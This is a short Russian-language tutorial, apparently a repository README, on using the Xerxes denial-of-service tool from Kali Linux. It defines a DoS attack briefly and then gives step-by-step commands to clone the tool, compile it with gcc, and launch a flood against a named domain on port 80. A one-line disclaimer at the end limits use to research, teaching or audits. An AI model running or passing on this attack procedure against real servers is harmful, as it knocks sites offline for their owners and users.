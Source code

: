 # 💀 XERXES – самый мощный инструмент для DoS-атаки с использованием Kali Linux

-- Как использовать Xerxes при запуске атаки DOS.

Инструменты DDOS способны создавать большие нагрузки на HTTP-серверы и вызывать большую нагрузку на ресурсы серверов.

Что такое DOS-атака?
Тип атаки, которая флудит серверы или сети, что приводит к тому, что источник недоступен для конечных пользователей.

Xerxes – это простой мощный инструмент для DoS-атаки с использованием Kali Linux

Используйте Xerxes из Github для этого выполните следующие команды:

``` bash
git clone https://github.com/XCHADXFAQ77X/XERXES.git
```
Затем перейдите в директорию.

```
cd xerxes
```

Далее вы должны скомпилировать с помощью GNU GCC

``` bash
gcc xerxes.c -o xerxes
```

Чтобы начать атаку укажите IP-адрес либо домен и порт. Например:

``` bash
./xerxes tsarev.biz 80
```
![image](💀Task8/img/curl-site-x.png)

![image](💀Task8/img/x1.png)
![image](💀Task8/img/x2.png)

❗ Примечание: Информация только для исследования, обучения или проведения аудита. Применение в корыстных целях карается законом.